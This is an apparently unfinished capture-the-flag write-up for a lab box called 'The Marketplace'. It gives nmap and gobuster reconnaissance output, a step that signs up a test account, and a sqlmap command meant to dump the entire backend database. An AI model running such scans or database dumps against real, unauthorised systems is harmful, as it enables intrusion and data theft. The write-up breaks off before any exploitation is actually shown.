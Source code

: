 Difficult: Medium
------------------------------------------
Note: The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. 
He said it still has a few bugs he and his team need to iron out.
Can you take advantage of this and will you be able to gain root access on his server?
------------------------------------------

Reconnaissance:
+ Scan NMAP:
```bash
	nmap -sV -vv -A -p- <IP>
	PORT      STATE SERVICE REASON         VERSION
	22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol
	 2.0)
	| ssh-hostkey: 
	|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLj5F//uf40JILlSfWp95GsOiuwSGSKLgbFmUQOACKAdzVcGOteVr3
	lFn7vBsp6xWM5iss8APYi9WqKpPQxQLr2jNBybW6qrNfpUMVH2lLcUHkiHkFBpEoTP9m/6P9bUDCe39aEhllZOCUgEtmLp
	dKl7OA3tVjhthrNHNPW+LVfkwlBgxGqnRWxlY6XtlsYEKfS1B+wODrcVwUxOHthDps/JMDUvkQUfgf/jpy99+twbOI1OZb
	CYGJFtV6dZoRqsp1Y4BpM3VjSrrvV0IzYThRdssrSUgOnYrVOZl8MrjMFAxOaFbTF2bYGAS/T68/JxVxktbpGN/1iOrq3L
	RhxbF1
	|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHyTgq5FoUG3grC5KNPA
	uPWDfDbnaq1XPRc8j5/VkmZVpcGuZaAjJibb9RVHDlbiAfVxO2KYoOUHrpIRzKhjHEE=
	|   256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA2ol/CJc6HIWgvu6KQ7lZ6WWgNsTk29bPKgkhCvG2Ar
	80/tcp    open  http    syn-ack ttl 62 nginx 1.19.2
	| http-methods: 
	|_  Supported Methods: POST OPTIONS
	|_http-title: The Marketplace
	|_http-server-header: nginx/1.19.2
	| http-robots.txt: 1 disallowed entry 
	|_/admin
	32768/tcp open  http    syn-ack ttl 62 Node.js (Express middleware)
	| http-methods: 
	|_  Supported Methods: HEAD OPTIONS
	|_http-title: The Marketplace

```

+ Scan Gobuster:
```bash
	gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
	===============================================================
	/admin                (Status: 403) [Size: 392]
	/Admin                (Status: 403) [Size: 392]
	/ADMIN                (Status: 403) [Size: 392]
	/images               (Status: 301) [Size: 179] [--> /images/]
	/login                (Status: 200) [Size: 857]
	/Login                (Status: 200) [Size: 857]
	/messages             (Status: 302) [Size: 28] [--> /login]
	/new                  (Status: 302) [Size: 28] [--> /login]
	/robots.txt           (Status: 200) [Size: 31]
	/robots.txt           (Status: 200) [Size: 31]
	/signup               (Status: 200) [Size: 667]
	/stylesheets          (Status: 301) [Size: 189] [--> /stylesheets/]
	Progress: 9228 / 9230 (99.98%)
	===============================================================
	Finished
	===============================================================

```

+ First, we will sign up to create a new account.
+ Create new USER "username:user1 & password:1"
+ 




```bash
sqlmap -r request.txt --dbms=mysql --dump
# -r uses the intercepted request you saved earlier
# --dbms tells SQLMap what type of database management system it is
# --dump attempts to outputs the entire database
```


